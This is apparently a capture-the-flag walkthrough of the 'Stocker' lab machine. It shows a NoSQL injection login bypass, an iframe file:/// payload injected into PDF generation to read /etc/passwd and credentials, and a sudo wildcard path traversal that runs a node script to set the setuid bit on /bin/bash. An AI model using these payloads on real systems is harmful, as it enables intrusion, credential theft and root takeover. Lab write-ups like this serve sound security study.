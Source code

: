 # Stocker

## Gaining Access

Nmap scan:

```bash
$ nmap -p- --min-rate 3000 10.129.98.240 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-19 00:30 EST
Nmap scan report for stocker.htb (10.129.98.240)
Host is up (0.015s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

The domain was `stocker.htb`, and we can add that to the `/etc/hosts` file.

### Subdomain Fuzzing

There was nothing of interest on the website. `gobuster` scans and default enumeration did not really help out a lot.&#x20;

I decided to use `wfuzz` to fuzz the possible subdomains present on the website, and actually found one at `dev.stocker.htb`.

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Interesting.

### Login Bypass

At the dev site, all we see is one login page:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

I tested out `sqlmap` or other SQL injections but it didn't work. It seems that we have to bypass this login to carry on with the machine. Proxying the traffic via Burp gave me a clearer picture on the error received when I entered wrong credentials:

```http
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3Akg1SjHeFtX5eT0qfyd1SYLx_R3NRwNQ4.1K3jgUazClJr3WYMiGo9H9WoN6Di9M3ZGN4z9qgzMXU
Upgrade-Insecure-Requests: 1

username=test&password=test
```

There was a `connect.sid` endpoint, indicating that this was some type of Express website. Perhaps this was using MongoDB instead of regular SQL. I tested this JSON payload to bypass the login and it worked.

```json
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }
```

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

The website was some ordering website where we could place orders for items.

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### Stock LFI

I added some items and attemted to checkout from the website.

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Viewing the purchase order brought us to a PDF page.

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

I downloaded the PDF and used `exiftool` on it to find that Skia is used to generate this PDF from Chromium.

```
$ exiftool document.pdf
ExifTool Version Number         : 12.49
File Name                       : document.pdf
Directory                       : .
File Size                       : 38 kB
File Modification Date/Time     : 2023:01:17 04:05:40-05:00
File Access Date/Time           : 2023:01:17 04:05:50-05:00
File Inode Change Date/Time     : 2023:01:17 04:05:40-05:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Tagged PDF                      : Yes
Creator                         : Chromium
Producer                        : Skia/PDF m108
Create Date                     : 2023:01:17 09:05:09+00:00
Modify Date                     : 2023:01:17 09:05:09+00:00
```

Additionally, this was the request sent when we clicked checkout.

```http
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 162
Connection: close
Cookie: connect.sid=s%3Akg1SjHeFtX5eT0qfyd1SYLx_R3NRwNQ4.1K3jgUazClJr3WYMiGo9H9WoN6Di9M3ZGN4z9qgzMXU

{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"Cup","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```

The exploit is obviously to do with some parameter within the request being vulnerable when generating the RCE. I did some research on PDF related exploits, and found that it was possible to inject some HTML frames to cause an LFI.

{% embed url="https://techkranti.com/ssrf-aws-metadata-leakage/" %}

I attempted this exploit using the `file:///` wrapper to read the `/etc/passwd` file and it worked within the `title` header in the JSON data.

```
<iframe src='file:///etc/passwd' width=500px height=1000px ></iframe>
```

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

We find that the user is called `angoose`. I attempted to read more files such as the private SSH key of the user, but it seems that I either could not read it or it did not exist.

Remembering that this was an Express website, perhaps there was a Javascript file that I could read to find some credentials, particularly those used to access this server in the first place. WIthin  the `/var/www/dev/index.js` file, I managed to find some credentials.

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

With this password, we can `ssh` in as `angoose`.&#x20;

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo

Checking sudo permissions, we find that `angoose` can use `node` as an administrator. There's also a wildcard in the scripts we can execute, which is never a good thing.

```
angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Sorry, try again.
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

Within that folder, there are some scripts already present.

```
angoose@stocker:/usr/local/scripts$ ls -la
total 32
drwxr-xr-x  3 root root 4096 Dec  6 10:33 .
drwxr-xr-x 11 root root 4096 Dec  6 10:33 ..
-rwxr-x--x  1 root root  245 Dec  6 09:53 creds.js
-rwxr-x--x  1 root root 1625 Dec  6 09:53 findAllOrders.js
-rwxr-x--x  1 root root  793 Dec  6 09:53 findUnshippedOrders.js
drwxr-xr-x  2 root root 4096 Dec  6 10:33 node_modules
-rwxr-x--x  1 root root 1337 Dec  6 09:53 profitThisMonth.js
-rwxr-x--x  1 root root  623 Dec  6 09:53 schema.js
```

I don't have write permissions in this folder. Neither can I read the scripts to find out what they do. However, because there's a wildcard, we can just enter `../../` to execute any script we want.

Here's a basic JS script for RCE using `child_process`.

```javascript
#!/usr/bin/node
require('child_process').exec('chmod u+s /bin/bash')
```

Then, we can simply do this:

```
angoose@stocker:~$ sudo /usr/bin/node /usr/local/scripts/../../../../../home/angoose/evil.js 
angoose@stocker:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
angoose@stocker:~$ /bin/bash -p
bash-5.0# id
uid=1001(angoose) gid=1001(angoose) euid=0(root) groups=1001(angoose)
```

Pwned.&#x20;
